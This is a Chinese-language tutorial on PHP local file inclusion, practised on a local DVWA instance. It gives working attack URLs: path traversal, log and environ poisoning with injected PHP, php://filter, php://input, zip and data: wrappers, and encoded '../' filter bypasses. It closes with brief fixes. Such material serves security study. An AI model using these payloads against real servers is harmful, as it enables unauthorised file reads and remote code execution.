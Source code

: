 ## 本地文件包含总结 ##
<b>漏洞概述</b>
文件包含是PHP的一个功能，可以包含php文件并运行，或者调用被包含的PHP文件里面的函数。但是由于未对用户可控变量进行输入检查，导致用户可以控制被包含的文件，成功利用时可以使web server将特定文件当做php执行，从而导致用户可以获取一定的服务器权限。

<b>漏洞代码如下</b>
```php
<?php 
// The page we wish to display 
$file = $_GET[ 'page' ]; 
?> 
```

<b>攻击手法如下</b>
知道绝对路径下可以直接：
```
http://127.0.0.1/DVWA-master/vulnerabilities/fi/?page=I:/phpstudy/PHPTutorial/WWW/dd.txt
```
![kGTTmR.png](https://s2.ax1x.com/2019/02/03/kGTTmR.png)

不知道绝对路径下你可以这样
```
http://127.0.0.1/DVWA-master/vulnerabilities/fi/?page=/../../../../../phpstudy/PHPTutorial/WWW/dd.txt
```
用/../../../../../为相对路径获取
![kGTjpD.md.png](https://s2.ax1x.com/2019/02/03/kGTjpD.md.png)

log文件getshell：
利用条件：先看看一些指定的日志文件有没有权限读取，如果有的话就可以getshell了 
```
1.通过扫描出的端口判断有哪些log
2.通过web容器得到对应的log文件
```
有权限读取Apache的log文件或错误log文件，就是error.log我这里用的是error.log
![kG7E9S.md.png](https://s2.ax1x.com/2019/02/03/kG7E9S.md.png)

在url框写入的内容会被记录到log,那么直接写一句话即可，这里写phpinfo测试
```
http://127.0.0.1/<?php phpinfo();?> 会被记到log文件，然后通过文件包含log文件即可执行
```
![kG7Nu9.md.png](https://s2.ax1x.com/2019/02/03/kG7Nu9.md.png)

常见的log文件有
```
apache的log apache.log error.log
系统运行的log ftp.log ssh.log
其他服务的log
```

包含session文件
利用条件：session文件路径已知，且其中内容部分可控
php的session文件的保存路径可以在phpinfo的session.save_path看到
![kGHdMQ.md.png](https://s2.ax1x.com/2019/02/03/kGHdMQ.md.png)
要包含并利用的话，需要能控制部分sesssion文件的内容。暂时没有通用的办法。有些时候，可以先包含进session文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入payload，并之后再次包含从而执行php代码
好像没多少人成功= =

包含environ
要求：php以cgi方式运行，这样environ才会保持UA头，environ文件存储位置已知，且environ文件可读。
用法：
proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。

包含fd
方法过于复杂
参考：[shell via LFI - proc/self/environ method](https://www.exploit-db.com/papers/12886/)

包含上传的文件
要求：知道上传的文件名
例如这里叫xx.jpg
![kJ1O1I.png](https://s2.ax1x.com/2019/02/04/kJ1O1I.png)

包含临时文件
php在处理文件上传的时候会先创建一个临时文件
条件竞争漏洞+文件包含漏洞

<b>伪协议的利用</b>
协议：php//filer
要求：无
用法：base64编码读到的内容，php://filter/convert.base64-encode/resource=文件路径
```
php://filter/convert.base64-encode/resource=被包含的文件路径
例如http://127.0.0.1/DVWA-master/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/../../../../../Apache/logs/error.log
```
![kGHp2F.md.png](https://s2.ax1x.com/2019/02/03/kGHp2F.md.png)


协议：php://input
要求：allow_url_include=On,对allow_url_fopen不做要求
用法：在存在包含漏洞的请求变量输入php://input 然后用burp抓包，添加你要执行的代码
![kJl9r8.md.png](https://s2.ax1x.com/2019/02/04/kJl9r8.md.png)

![kJQ481.png](https://s2.ax1x.com/2019/02/04/kJQ481.png)

协议：php://phar或者zip://
要求：php版本等于大于5.3.0
用法：创建一个压缩包，然后里面添加个txt，txt里面是php代码。然后在存在包含漏洞的请求变量输入php://rar/压缩包名/压缩包里面的txt
注意：windows下必须得知道绝对路径才能使用此协议，而Linux下可以使用相对路径
![kJlnMV.md.png](https://s2.ax1x.com/2019/02/04/kJlnMV.md.png)

![kJlRL8.png](https://s2.ax1x.com/2019/02/04/kJlRL8.png)

![kJlqyV.png](https://s2.ax1x.com/2019/02/04/kJlqyV.png)

data:URI schema

协议名：dataURl schema
要求：php版本大于等于php5.2，allow_url_fopen = On，allow_url_include = On
用法：在存在包含漏洞的请求参数，输入data:text/plain,<?php 代码 ?>
![kJ1AeO.png](https://s2.ax1x.com/2019/02/04/kJ1AeO.png)

执行命令
![kJ1EwD.png](https://s2.ax1x.com/2019/02/04/kJ1EwD.png)

以bas64的方式来执行
data:text/plain;base64,base64编码的代码
![kJ1mYd.png](https://s2.ax1x.com/2019/02/04/kJ1mYd.png)


<b>绕过过滤</b>
指定前缀
``````php
<?php
if(isset($_GET['file'])){
    include 'I:\phpstudy\PHPTutorial\WWW'.$_GET['file'];
}
?>
``````
绕过方式：
使用相对路径
```
http://127.0.0.1/bh.php?file=/../../../../../1.txt
```
路径结合起来就是：I:\phpstudy\PHPTutorial\WWW/../../../../../1.txt
1txt在I盘根目录，内容是
```
16022d6f9581b14aabd64f1476e6bd1a8e119a3a
```
![kJ81Ig.png](https://s2.ax1x.com/2019/02/04/kJ81Ig.png)

包含如下：
![kJ88iQ.png](https://s2.ax1x.com/2019/02/04/kJ88iQ.png)

过滤../
绕过方式：编码绕过
```
../
%2e%2e%2f
..%2f
%2e%2e/
..\
%2e%2e%5c
..%5c
%2e%2e\
二次编码
../
%252e%252e%252f
..\
%252e%252e%255c
```

指定后缀
```php
<?php
if(isset($_GET['file'])){
    include $_GET['file'].'dd.txt';
}
?>
```
远程文件包含漏洞+？或#绕过
![kJGlOx.png](https://s2.ax1x.com/2019/02/04/kJGlOx.png)

![kJG3m6.png](https://s2.ax1x.com/2019/02/04/kJG3m6.png)

利用zip协议
注意：这里要用绝对路径,注意压缩包里面的路径
拼接后的路径是I:\phpstudy\PHPTutorial\WWW\demo.zip#dd.txt
导致能够成功绕过
![kJJ8vn.png](https://s2.ax1x.com/2019/02/04/kJJ8vn.png)

第二个例子：
```
<?php
if(isset($_GET['file'])){
    include $_GET['file'].'WWW/dd.txt';
}
?>
```
![kJY9rq.png](https://s2.ax1x.com/2019/02/04/kJY9rq.png)

![kJJzxs.md.png](https://s2.ax1x.com/2019/02/04/kJJzxs.md.png)

或者用%00截断，不过有些php版本不行

<b>漏洞修补</b>
设置php.ini里面的allow_url_inclue=Off,allow_url_fopen=off
不要让参数可以控制文件包含，如果非要控制的话。就用str_replace()过滤掉.和/那么
这两个过滤之后利用也不可能成功了。然后在手动给参数加上.